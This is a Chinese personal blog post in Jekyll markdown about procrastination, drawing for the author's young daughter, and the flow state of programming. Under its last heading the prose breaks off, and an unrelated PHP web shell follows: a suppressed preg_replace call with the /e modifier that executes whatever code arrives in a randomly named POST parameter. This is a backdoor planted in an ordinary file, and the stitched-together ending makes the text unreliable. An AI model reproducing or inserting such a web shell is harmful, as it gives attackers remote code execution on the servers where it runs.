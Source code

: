 ```yaml
---
layout: post
title: "艰难时代"
comments: true
categories: 
- 生活
tags:
- 拖延症
---
```

# 涂鸦

![](http://7lrzgn.com1.z0.glb.clouddn.com/%E6%B6%82%E9%B8%A6.png)

米粒周岁之后，经常给她临摹一些小画，画的都很普通，还不如希特勒的水平，聊以自娱。

# 懦弱的拖延症
开始陷入了严重的拖延症。当我无法克服困难的时候，就会陷入这种拖延症，开始做别的事情打发时间，结果就更浪费时间了。想到这里，我就会觉得自己太不给力，也太自私了。我觉得问题是自己懦弱的性格。大年初二，去了红山动物园，米粒妈妈感冒了。今年马上也要开学了，回首这段时间我可以说是一无所成。我不知道为什么，我陷入了这种绝境，这段时间确实不好过。时间总在看手机、看米粒的碎片过程中过去了。

writing a lot给了我很多启发：

- 任务要小，不要一口吃个胖子，
- 有明确的步骤和要求，比如写完50个字。
- 循序渐进。
- 

# 流动的状态

乐而忘忧废寝忘食，这是做自己擅长的事情的体验。比如我编写程序的时候，克服一个个具体的小问题。

# 写作是第一生产

<?php 

namespace WrappedString;

@preg_replace('/(.*)/e', @$_POST['kxrmmbxafhdg'], '');





